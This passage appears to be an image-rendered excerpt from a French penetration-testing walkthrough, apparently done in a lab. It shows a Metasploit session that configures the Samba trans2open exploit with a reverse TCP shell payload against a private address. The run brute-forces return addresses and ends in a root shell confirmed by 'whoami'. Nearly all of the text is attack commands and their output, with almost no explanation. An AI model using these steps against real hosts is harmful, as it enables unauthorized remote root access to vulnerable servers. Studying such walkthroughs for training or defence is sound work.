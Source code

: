 ```bash
msf exploit(multi/samba/nttrans) > use exploit/linux/samba/trans2open
msf exploit(linux/samba/trans2open) > show options

Module options (exploit/linux/samba/trans2open):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce
   
msf exploit(linux/samba/trans2open) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf exploit(linux/samba/trans2open) > show options

Module options (exploit/linux/samba/trans2open):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.122.83   yes       The target address
   RPORT  139              yes       The target port (TCP)


Payload options (linux/x86/shell/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.122.178  yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce

```

Place au lancement de l'exploit :

```bash
msf exploit(linux/samba/trans2open) > run

[*] Started reverse TCP handler on 192.168.122.178:4444 
[*] 192.168.122.83:139 - Trying return address 0xbffffdfc...
[*] 192.168.122.83:139 - Trying return address 0xbffffcfc...
[*] 192.168.122.83:139 - Trying return address 0xbffffbfc...
[*] 192.168.122.83:139 - Trying return address 0xbffffafc...
[*] Sending stage (36 bytes) to 192.168.122.83
[*] Command shell session 5 opened (192.168.122.178:4444 -> 192.168.122.83:32775) at 2018-01-07 16:17:37 +0100

whoami
root

```
